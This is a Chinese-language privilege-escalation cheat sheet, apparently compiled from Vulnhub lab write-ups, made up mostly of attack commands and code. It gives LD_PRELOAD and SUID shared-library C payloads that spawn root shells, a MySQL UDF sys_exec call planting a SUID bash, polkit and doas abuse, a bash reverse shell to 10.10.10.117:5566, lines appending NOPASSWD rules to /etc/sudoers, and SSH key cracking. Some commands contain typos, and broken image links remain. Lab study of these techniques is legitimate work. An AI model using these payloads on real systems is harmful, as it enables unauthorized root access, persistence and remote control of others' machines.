








#### shell交换性提升
获取立足点后，发现产生的shell不能用光标进行移动。不能删除。需要使用命令来提升交互性。

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z //把shell放到后台

stty raw -echo;fg //将键盘全部输入，无回显，并且切换到前台
   xterm-color//取决当前的终端类型
   
//当执行成功时候，可以调节终端的大小
stty raws 59 cols 194

```

可以使用命令查看当前终端信息
按下CTRL+Z后显示

在终端中输入，如图所示，别忘了输入reset


通过查看当前终端参数进行shell的调整




#### sudo环境提权
``` C
#include <stdio.h>
#include <stdlib.h> //方便调用system这样的函数
#include <sys/types.h>
void _init(){
    unsetenv("LD_PRELOAD");   //这里必须先卸载环境，否则子进程bash又会继承LD_PRELOAD这个so文件，导致无线递归
    setuid(0);
    setgid(0);//  types.h文件库存储linux的数据结构信息
    system("/bin/bash");//以root权限起一个bash
}
```

``` bash
gcc -shared -fPIC -o shell.so shell.c -nostartfiles
//nostartfiles选项告诉gcc编译器，我不需要你给我添加文件信息。这里so文件在main函数之前执行靠的的是linux系统中对于_init()优先执行
```



#### SUID 共享库注入提权

``` C
#include <stdio.h>
#include <stdlib.h>
static void Inject() __attribute__((constructor));//有了这一行gcc就不需要加nostartfiles这个选项
void Inject(){
     setuid(0);
     system("/bin/bash -p");
}
```


## MySQL UDF 提权

在 MySQL 4.X 或者是 5.X 的版本中，存在使用 UDF 提权的攻击面。常见的情况，我们会使用 searchsploit 搜索 1518.c 的 payload 把它编译成 .so 文件。然后通过创建 UDF 执行提权命令。在一些环境下，我们没法使用 gcc 编译器。
解决方法有两种

- 去网站上编译好的二进制文件
- 在自己电脑上编译好上传
- 尝试使用搜索其他现成的 UDF 命令执行函数

第三种中，我们使用 searchsploit 搜索 7856 这个漏洞利用文件。

我查找当前用户有哪些自定义的函数在 mysql 库汇中的 func 表下。


```mysql
select * from mysql.func;
select sys_exec("cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash;");
```

然后成功提权


## Polkit 权限配置不当提权

第一步，查看本地 polkit 的管理员配置，我们当前用户是否是管理员组用户，可以在以下的文件位置处查看。

```
ls -liah /etc/polkit-1/localauthority.conf.d/
cd /etc/polkit-1/localauthority.conf.d/
cat 51-debian-sudo.conf
```


一般情况下我们可以优先看这个 51 开头的文件，根据 polkit 的系统文档推荐，管理员新建 51开头的新命名文件，而不是在 50 开口策略文件处修改。这个例子中，polkit 机制认定 sudo 组就是管理员组。

第二步，使用 polkit 管理员权限执行高权限命令。我们的 norris 用户是 sudo 组，可以执行一些 root 权限才能执行的命令。


可以考虑这些命令

```shell
systemd-run --shell
systemd -t /bin/bash
```


## find 命令枚举权限

查找所有当前用户可以写的文件

```shell
find / -writable -type f 2>/dev/null
```

查找所有有suid 权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```


## 通用提权命令

1. 拷贝 bash 文件

我们在可以使用 root 权限的切入点中，执行这条命令。

```shell
cp /bin/bash /tmp/rootbash;chomd +xs /tmp/rootbash
```

接着在立足点终端执行这条命令

```
/tmp/rootbash -p
```

我们就能活得一个 root 的会话。


2. 反弹一个 root 权限的 shell

在切入点中，写入这条命令

```shell
bash -c '/bin/bash -i >& /dev/tcp/10.10.10.117/5566 0>&1'
```

在我们 10.10.10.117 的 kali 上监听 5566 端口

```
sudo nc -lvnp 5566
```


3. 写入 /etc/sudoers 文件

也可以执行这条命令

```shell
echo "yuy0ung ALL=(root) NOPASSWD:/home/yuy0ung/demo/shell.sh" >> /etc/sudoers 
# 允许 yuy0ung 用户在不输入密码的情况下以 root 身份执行 /home/yuy0ung/demo/shell.sh 脚本，将此配置追加到 /etc/sudoers 文件中

echo "overflow ALL=(ALL)NOPASSWD: ALL" >> /etc/sudoers
overflow 用户能够以免密的方式以 root 权限执行任何操作
```


## 知道私钥或者公钥如何提权?

1. 知道公钥，想推出私钥

可以查看是否存在 prng 漏洞。这是一个伪随机数生成器造成的漏洞。通过 searchsploit 工具，我们查到了 伪随机数的数据文件。[prng](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2)
我们截取泄露公钥的前几十位。在解压后的文件中进行匹配查找。

```shell
grep -lr "AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB60JctxC6BDxjqQXggf0ptx"
```

其中 -l 参数表示只打印出存在匹配行的文件名。-r 参数表示在文件夹下进行递归搜索。


2.知道私钥，不知道 passphrase

```shell
ssh2john my_ssh_key > ssh_hash.txt
john --wordlist=wordlist.txt ssh_hash.txt
```

Vulnhub%20FourAndSix2.01%20靶机渗透总结/IMG-20261018211534807.png)


#### OpenBSD doas

在 OpenBSD 这个操作系统上，doas 的地位和 sudo 在 debian 这个操作系统上的地位一样。
我可以查看 /etc/doas.conf 这个文件夹判断 doas 可以执行的权限。这个文件功能类似 /etc/sudoers 这个文件功能一样。



我们按照 doas.conf 这个文件的提示，调用 less 工具提权。第一次命令输错了，第二次，成功。







